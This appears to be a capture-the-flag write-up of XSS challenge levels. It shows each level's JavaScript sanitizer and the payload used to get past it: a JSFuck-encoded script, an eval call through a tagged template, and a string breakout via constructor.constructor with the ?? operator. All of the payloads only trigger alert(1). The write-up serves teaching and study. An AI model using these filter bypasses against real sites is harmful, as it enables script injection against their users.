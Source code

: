 Sanitizer : 
```javascript
function sanitize(input) {
    // uppercase! how r ya gonna call that alert?
    return input.toUpperCase();
}
```
For this level I used [JsFuck](https://jsfuck.com/) , so the payload is : 
```
<script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()</script>
```


# Level 5
Sanitizer : 
```javascript
function sanitize(input) {
    // no equals, no parentheses!
    return input.replace(/[=(]/g, '');
}
```
In this case there is a regex that prevents us from using parentheses and equals `(=`
So I used this payload: 
```javascript
<script> eval.call`${"alert\x281\x29"}`</script>
```
Here you can find the explanation of [call() function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/call) and [Template Literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)

# Level 6 
Sanitizer :
```javascript
function sanitize(input) {
    // no symbols whatsoever! good luck!
    const sanitized = input.replace(/[[|\s+*/<>\\&^:;=`'~!%-]/g, '');
    return "  \x3Cscript\x3E\nvar name=\"" + sanitized + "\";\ndocument.body.innerText=name;\n  \x3C/script\x3E";
}
```
In this case our input is sanitized by a regex (which removes most of the special characters) and is inserted inside `var name=" "`\
We can use double quotes to escape the string and insert a payload to trigger the alert, there could be more ways to do it but I used a `Function()` object by calling it with the prototype `constructor`\
![]({{ page.img_dir | relative_url }}/xss2.png)
`"a".constructor.constructor(alert(1))` is like `Function(alert(1))`\
At this point we could use the slash `/` to comment out the remaining part, but the regex filters the `/` character and after some research I found a javascript operator called nullish coalescing (`??`) operator \
So the payload becomes: 
```javascript
a".constructor.constructor(alert(1))??"
```
